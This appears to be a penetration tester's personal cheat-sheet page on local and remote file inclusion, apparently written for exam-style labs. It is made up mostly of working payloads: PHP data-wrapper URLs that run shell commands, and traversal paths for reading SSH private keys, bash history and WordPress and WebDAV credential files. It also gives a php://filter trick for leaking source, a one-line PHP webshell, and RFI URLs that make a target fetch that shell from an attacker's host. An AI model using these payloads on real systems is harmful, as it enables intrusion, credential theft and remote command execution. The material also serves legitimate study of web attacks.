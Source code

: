 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
https://blog.certcube.com/detailed-cheatsheet-lfi-rce-websheels/
https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html

#### LFI
Also try [[5_Contaminating Log Files]]

#### LFISuite - works with cookies!
```bash - kali
git clone https://github.com/D35m0nd142/LFISuite && cd LFISuite
```

```bash - kali
python lfisuite.py
```

Windows wordlist:
```bash - kali
wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/Intruders/Windows-files.txt
```

Linux wordlist:
```bash - kali
wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/Intruders/Linux-files.txt
```

#### PHP Wrappers

```bash
http://$TARGET/menu.php?file=data:text/plain,hello world
```

```bash
http://$TARGET/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

[[rlwrap]]

[[1._Reverse Shells (WIN)#MSFVenom]]
[[4._File Transfers]]
[[0._PHP_Webshells#PHP]]

---
#### Apache default config file location <<<<<<<<<<<
```
/etc/apache2/sites-available/000-default.conf
```

```
/etc/apache2/sites-enabled/000-default.conf
```

Can you download the source code?  Then just find / grep for password file locations!

==TRY TO GET /home/USER/.ssh/id_rsa==
```
/home/user/.ssh/authorized_keys
```

```
/home/user/.ssh/id_rsa
```

```
/home/user/.ssh/id_rsa.pub
```

```
/home/user/.bash_history
```

```
/var/www/html/wp-config.php
```

#### Webdav creds
```
/var/www/html/webdav/passwd.dav
```

#### Wordpress config.php

Windows location:
```bash - kali
..\..\..\..\..\..\xampp\htdocs\blog\wp-config.php
```

```bash - kali
..\..\..\..\..\..\var\www\html\wordpress\wp-config.php
```

#### PHP  base64 convertor
```bash - kali
?page=php://filter/convert.base64-encode/resource=/../../../../../../../../../../var/www/html/wordpress/wp-config.php
```

#### RFI
==Remember for RFI, the file has to be txt!==

WWOLF:

[[0._PHP_Webshells#wwolf]]

Save as webshell.txt

```
http://$TARGET/image.php?img=http://$KALI/webshell.txt
```

![[Pasted image 20220329093728.png]]

evil.txt:
```php
<?php echo shell_exec($_GET['cmd']); ?>
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```
http://$TARGET/menu.php?file=http://$KALI/evil.txt&cmd=ipconfig
```

#### Terminators
Null byte:
```
%00
```

```
?
```

![[Pasted image 20220506120304.png]]

Just by adding a question mark on this example, we got our webshell to work.

![[Pasted image 20220506120325.png]]

